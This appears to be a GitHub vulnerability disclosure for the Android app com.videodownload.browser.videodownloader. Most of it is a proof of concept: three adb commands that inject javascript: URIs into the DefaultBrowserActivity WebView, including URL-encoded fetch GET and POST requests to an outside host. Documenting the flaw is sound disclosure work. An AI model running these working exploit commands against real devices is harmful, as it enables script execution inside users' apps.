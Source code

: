 A JavaScript code execution vulnerability was discovered in the `com.videodownload.browser.videodownloader` application. 

This vulnerability allows an attacker to execute arbitrary JavaScript code within the context of the application's WebView by crafting a specially formatted intent.

Application: `com.videodownload.browser.videodownloader`

Activity: `acr.browser.lightning.DefaultBrowserActivity`

Version: 20-30.05.24

**Proof of Concept**:

<img width="1000" alt="346287051-17c7b953-537d-4c48-8066-093a25dee8d4" src="https://github.com/actuator/com.videodownload.browser.videodownloader/blob/main/acr.browser.lightning.DefaultBrowserActivity.gif">


1. **Basic JavaScript Alert Execution**:
   - Command:
     ```cmd
     adb shell am start -a android.intent.action.VIEW -d 'javascript:alert(1)' com.videodownload.browser.videodownloader/acr.browser.lightning.DefaultBrowserActivity
     ```

2. **Basic Fetch GET Request**:
   - Command:
     ```cmd
     adb shell am start -a android.intent.action.VIEW -d "javascript:fetch%28%22https%3A%2F%2Fhttpbin.org%2Fget%22%29.then%28response%20%3D%3E%20response.text%28%29%29.then%28data%20%3D%3E%20alert%28%22Success%3A%20%22%20%2B%20data%29%29.catch%28error%20%3D%3E%20alert%28%22Fetch%20error%3A%20%22%20%2B%20error.message%29%29%3B" com.videodownload.browser.videodownloader/acr.browser.lightning.DefaultBrowserActivity
     ```

3. **Basic Fetch POST Request**:
   - Command:
     ```cmd
     adb shell am start -a android.intent.action.VIEW -d "javascript:fetch%28%22https%3A%2F%2Fhttpbin.org%2Fpost%22%2C%20%7Bmethod%3A%20%22POST%22%2C%20headers%3A%20%7B%22Content-Type%22%3A%20%22application%2Fjson%22%7D%2C%20body%3A%20JSON.stringify%28%7Bkey%3A%20%22value%22%7D%29%7D%29.then%28response%20%3D%3E%20response.json%28%29%29.then%28data%20%3D%3E%20alert%28%22Success%3A%20%22%20%2B%20JSON.stringify%28data%29%29%29.catch%28error%20%3D%3E%20alert%28%22Fetch%20error%3A%20%22%20%2B%20error.message%29%29%3B" com.videodownload.browser.videodownloader/acr.browser.lightning.DefaultBrowserActivity
   
     ```




**Impact**:

This vulnerability allows an attacker to execute arbitrary JavaScript code within the app's WebView, which can lead to various attacks, including:

- Performing unauthorized actions on behalf of the user.
- Injecting malicious content into the WebView.
